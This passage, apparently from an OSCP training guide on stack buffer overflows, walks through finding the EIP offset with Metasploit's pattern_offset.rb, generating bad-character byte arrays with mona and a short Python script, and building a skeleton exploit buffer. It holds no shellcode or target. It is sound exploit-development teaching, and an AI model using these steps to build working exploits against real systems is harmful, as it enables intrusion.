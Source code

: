 ## Method 2

We will now use a second script from Metasploit called pattern_offset.rb. What this script will do is take that value and seeing exactly where it exists in the buffer length we designate, showing us the point where the buffer will crash. 

```
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q pasteEIPvaluehere -l 666
[*] Exact match at offset 112
```
## Method 3

You can also use these web generator to find the offset:
1. https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
2. https://wiremask.eu/tools/buffer-overflow-pattern-generator/


# 3. Finding Bad Characters

Generate a bytearray using mona, and exclude the null byte (\\x00) by default. Note the location of the bytearray.bin file that is generated.

```
!mona bytearray -b "\x00"
```

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \\x01 to \\xff. Called badchars.py

```
#!/usr/bin/env python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```

Script: https://github.com/Lunox-code/OSCP-Preparation-Guide/blob/main/Buffer%20Overflow/badchars.py

Create a new buffer using this information to ensure that we can control EIP:

```
 prefix = ""
 offset = 112
 overflow = "A" * offset
 retn = "BBBB"
 padding = ""
 payload = "\x01\x02\x03\x04\x05...\xfb\xfc\xfd\xfe\xff"
 postfix = ""
    
 buffer = prefix + overflow + retn + padding + payload + postfix
```
